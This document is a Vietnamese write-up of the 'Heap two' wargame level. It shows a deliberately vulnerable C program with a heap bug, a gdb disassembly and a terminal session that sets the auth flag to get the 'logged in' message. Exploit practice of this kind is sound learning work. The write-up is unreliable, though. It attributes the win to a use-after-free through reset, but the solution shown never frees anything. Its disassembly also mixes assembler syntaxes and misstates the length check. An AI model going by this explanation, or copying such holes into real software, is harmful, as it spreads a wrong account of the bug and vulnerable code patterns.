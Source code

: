 # Heap two
Source code:
```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

struct auth {
  char name[32];
  int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
  char line[128];

  while(1) {
      printf("[ auth = %p, service = %p ]\n", auth, service);

      if(fgets(line, sizeof(line), stdin) == NULL) break;
      
      if(strncmp(line, "auth ", 5) == 0) {
          auth = malloc(sizeof(auth));
          memset(auth, 0, sizeof(auth));
          if(strlen(line + 5) < 31) {
              strcpy(auth->name, line + 5);
          }
      }
      if(strncmp(line, "reset", 5) == 0) {
          free(auth);
      }
      if(strncmp(line, "service", 6) == 0) {
          service = strdup(line + 7);
      }
      if(strncmp(line, "login", 5) == 0) {
          if(auth->auth) {
              printf("you have logged in already!\n");
          } else {
              printf("please enter your password\n");
          }
      }
  }
}
```
Đặt tên biến khó chịu thực sự.
Để giải quyết được challenge này chúng ta phải đổi giá trị của ```auth->auth``` thành khác 0.
Ta cũng thấy các địa chỉ tăng thêm 0x10 mỗi lần chúng ta phân bổ bộ nhớ mới bằng cách gọi auth:
```bash
auth a
[ auth = 0x804c008, service = (nil) ]
auth a
[ auth = 0x804c018, service = (nil) ]
```

0x10 là vùng nhớ cần thiết cho
- một chunk header
- 4 bytes vùng nhớ cho `auth` 
- phần đệm để căn chỉnh bộ nhớ được phân bổ trên ranh giới 8 byte

Về cơ bản thì bộ nhớ heap sau khi được cấp phát sẽ trông thế này
![Alt text](image-1.png)



Đầu tiên nhìn đoạn code này
```c
if(strlen(line + 5) < 31) {
    strcpy(auth->name, line + 5);
}
```
Ta thấy độ dài của tham số dòng được kiểm tra. Điều đó có nghĩa là chúng ta không thể tràn auth->name.
Vấn đề thật sự của bài này là lỗi use after free. Ta thấy khi lần đầu cấp phát, auth = 0x804c008, sau khi free thì auth vẫn giữ giá trị 0x804c008. 
**chú ý rằng heap sẽ ưu tiên dùng vùng nhớ vừa bị giải phóng**. Do vậy sau khi gọi strdup, heap sẽ cấp phát bộ nhớ tại đúng vị trí vừa bị free là `0x804c008`. Như vậy ta chỉ cần làm cho chuỗi nhập vào sau service có thể ghi đè lên vị trí có địa chỉ là địa chỉ của auth là được

solution: 
```bash
$ gdb heap2
......
(gdb) disas main
Dump of assembler code for function main:
......
0x080489a7 <+115>:  movl   $0x4,(%esp)
0x080489ae <+122>:  call   0x804916a <malloc>            ; auth = malloc(4); 
0x080489b3 <+127>:  mov    0x804b5f4,%eax
0x080489b8 <+132>:  mov    eax,ds:0x804b5f4
0x080489bd <+137>:  movl   $0x4,0x8(%esp)   
0x080489c5 <+145>:  movl   $0x0,0x4(%esp)
0x080489cd <+153>:  mov    %eax,(%esp)
0x080489d0 <+156>:  call   0x80487bc <memset@plt>        ; memset(auth, 0, sizeof(auth));
0x080489d5 <+161>:  lea    %eax,0x10(%esp)
0x080489d9 <+165>:  add    $0x5,%eax
0x080489dc <+168>:  mov    %eax,(%esp)
0x080489df <+171>:  call   0x80487fc <strlen@plt>
0x080489e4 <+176>:  cmp    $0x1e,%eax                    ; if(strlen(line + 5) < 30) 
0x080489e7 <+179>:  ja     0x8048a01 <main+205>                 
0x080489e9 <+181>:  lea    0x10(%esp),%eax
0x080489ed <+185>:  lea    0x5(%eax),%edx
0x080489f0 <+188>:  mov    0x804b5f4,%eax
0x080489f5 <+193>:  mov    %edx,0x4(%esp)
0x080489f9 <+197>:  mov    %eax,(%esp)
0x080489fc <+200>:  call   0x804880c <strcpy@plt>        ; strcpy(auth->name, line + 5);
......
(gdb) quit

$ ./heap2
[ auth = (nil), service = (nil) ]
auth AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[ auth = 0x804c008, service = (nil) ]
service BBBB
[ auth = 0x804c008, service = 0x804c018 ]
login
please enter your password
[ auth = 0x804c008, service = 0x804c018 ]
service BBBB
[ auth = 0x804c008, service = 0x804c028 ]
login
you have logged in already!
```